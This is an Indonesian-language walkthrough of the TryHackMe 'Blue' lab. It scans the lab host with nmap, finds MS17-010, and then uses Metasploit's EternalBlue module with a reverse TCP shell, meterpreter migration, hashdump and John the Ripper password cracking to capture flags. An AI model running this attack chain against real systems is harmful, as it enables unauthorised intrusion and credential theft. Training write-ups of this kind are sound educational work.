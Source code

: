 # CTF Blue
- TryHackMe Room: https://tryhackme.com/room/blue
- IP Machine: 10.10.88.234

## Nmap Report
- Baris perintah: `nmap -sV --script vuln <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV --script vuln 10.10.88.234 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 02:38 EDT
Nmap scan report for 10.10.88.234
Host is up (0.20s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.80 seconds
```
- Dari hasil scanning, diketahui bahwa service SMB memiliki jenis kerentanan **ms17-010**


## Metasploit
- Buka `msfconsole` di terminal

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%201.JPG)

- Cari modul untuk exploit jenis kerentanan ms17–010 dengan perintah `search ms17–010`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%202.JPG)

- Disini kita menggunakan modul **exploit/windows/smb/ms17_010_eternalblue** yang ada di list nomor 0. Jadi cukup gunakan perintah `use 0`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%203.JPG)

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%204.JPG)

- Gunakan perintah `set <Nama parameter> <Value>` untuk mengisi parameter. Isi parameter RHOSTS dengan IP Machnine dan isi parameter LHOST dengan IP tun0 pada komputer yang anda gunakan. Kemudian setting payload `set payload windows/x64/shell/reverse_tcp` sesuai petunjuk soal

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%205.JPG)

- Ketik `exploit` untuk memulai proses exploitasi

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%206.JPG)

- Proses exploitasi berhasil dan kita masuk sebagai **nt authority\system**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%207.JPG)

- Tekan **Ctrl+Z** lalu ketik "y" untuk mengubah session 1 ke background

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%208.JPG)

- Cari modul untuk mengkonversi shell sistem ke shell meterpreter di metasploit. Kita bisa gunakan perintah `search shell_to_meterpreter`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%209.JPG)

- Karena hanya ada 1 modul, langsung kita gunakan modul tersebut dengan perintah `use 0`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2010.JPG)

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2011.JPG)

- Gunakan perintah `set <Nama parameter> <Value>` untuk mengisi parameter. Isi parameter LHOST dengan IP tun0 pada komputer yang anda gunakan dan parameter SESSION dengan 1

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2012.JPG)

- Ketik `exploit` untuk memulai proses exploitasi. Proses exploitasi berhasil dan ketikkan `sessions` untuk melihat daftar session yang berhasil terbentuk

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2013.JPG)

- Masuk ke session 2 dengan perintah `sessions -i <nomor session>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2014.JPG)

- Ketik `ps` untuk melihat daftar proses yang berjalan di server sesuai arahan tugas. Disini ditemukan program services.exe yang berjalan di PID 672

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2015.JPG)

- Lakukan migrate dengan services.exe. Gunakan perintah `migrate <PID>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2016.JPG)

- Ketik `hashdump` maka akan diperoleh daftar user beserta passwordnya yang di hash

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2017.JPG)

- Simpan hash user Jon kedalam sebuah file di local untuk melakukan cracking dengan perintah `echo hash > nama_file`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2018.JPG)

- Lakukan cracking dengan tool john the ripper `john --wordlist=/usr/share/wordlists/rockyou.txt nama_file`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2019.JPG)

- Jika kita ketik `pwd` di meterpreter kita berada di directory C:\Windows\system32 

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2020.JPG)

- Navigasi ke directory C: dengan perintah `cd ../../` maka disana ditemukan file **flag1.txt**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2021.JPG)

- Buka file **flag1.txt** dengan perintah `cat nama_file`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2022.JPG)

- Cari lokasi file **flag2.txt** dan **flag3.txt** dengan perintah `search -f flag*.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2023.JPG)

- Buka masing-masing file **flag2.txt** dan **flag3.txt** yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2024.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2025.JPG)